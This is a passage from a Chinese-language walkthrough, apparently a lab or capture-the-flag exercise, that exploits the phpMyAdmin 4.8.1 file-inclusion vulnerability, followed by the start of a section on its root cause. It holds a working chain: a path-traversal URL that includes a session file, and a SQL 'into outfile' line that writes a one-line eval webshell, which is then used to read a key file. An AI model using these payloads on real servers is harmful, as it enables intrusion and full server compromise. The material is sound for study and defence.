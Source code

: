   
输出结果如下图所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVGk3vYuU8SyczIvAJWYGdiao6cVcHhuQhia2iaCf1HVkMLoaOCAfpfZolQ/640?wx_fmt=png&from=appmsg "")  
  
然后我们可以看到插入的php代码，如下所示。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVNTiayf6498xKofx6JAEOGZmtOhtlic5Kyiatc5cHMk3MnjUJK2Kz7Mnqg/640?wx_fmt=png&from=appmsg "")  
  
第五步，在SQL中执行select ‘<?php phpinfo() ?>’，然后查看当前页面cookie中的phpmyadmin的值。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVWWOibCJD2YFECyK7zI36CdK6IrSOicTSCKmEiaylicoNJ3BNCNDYbtDPMA/640?wx_fmt=png&from=appmsg "")  
  
通过浏览器查看网络的Cookie值。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVbA2FbOrVGA4vwM5ib9yXrkYNibewwrKwQNGnryDWPCPtq7mehhsPzXoA/640?wx_fmt=png&from=appmsg "")  
  
第六步，构建包含Session值的URL路径。F12查看网站Session值，访问/index.php?target=db_sql.php%253f/…/…/…/…/…/…/tmp/sess_[session]。  
```
?target=db_datadict.php%253f/../../../../../../../../../phpStudy/PHPTutorial/tmp/tmp/sess_imnnv91q886sfboa2sqos02b7njvho24
```  
  
访问能显示如下图所示的信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVdZiab4BnHI36pkNuAYrfuZmK6URkt1BO3PDs9ibh4ibNibH6D6cpFeDDvA/640?wx_fmt=png&from=appmsg "")  
  
第七步，在phpInfo默认页面找到网站的安装位置：/var/www/html，然后写入一句话木马。  
```
select '<?php @eval($_POST[hcl]) ?>' into outfile '/var/www/html/hcl.php'
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVsLibulAvMQn1p2CaFy19yJY9LnpXPAriavm77Ujxyoc7zTQUYw1qQJxw/640?wx_fmt=png&from=appmsg "")  
  
第八步，通过菜刀连接 http://ip/hcl.php。菜刀连接成功，在根目录下找到了key.txt文件，查看key.txt文件，获得key值。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRNWoWUKxrkcddY3241SdjDVlnaPHjnpMRMuPZYRenGu4unjXFSp4kFuk2Y9Uf9F80AUcoFy2Fk5fw/640?wx_fmt=png&from=appmsg "")  
  
简单总结：利用phpMyAdmin 4.8.1后台文件包含漏洞，获取登录phpmyadmin系统所产生的sess_sessionID文件，然后通过文件绕过获取相关信息并植入木马，最终获取webshell。通常linux系统中存放路径为/tmp/sess_[当前会话session值]。  
# 四.漏洞原理及防御  
  
在phpMyAdmin 4.8.1版本的index.php文件中，第50-63行代码如下：  
```
$target_blacklist = array (
    'import.php', 'export.php'
);

// If we have a valid target, let's load that script instead
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```  
  
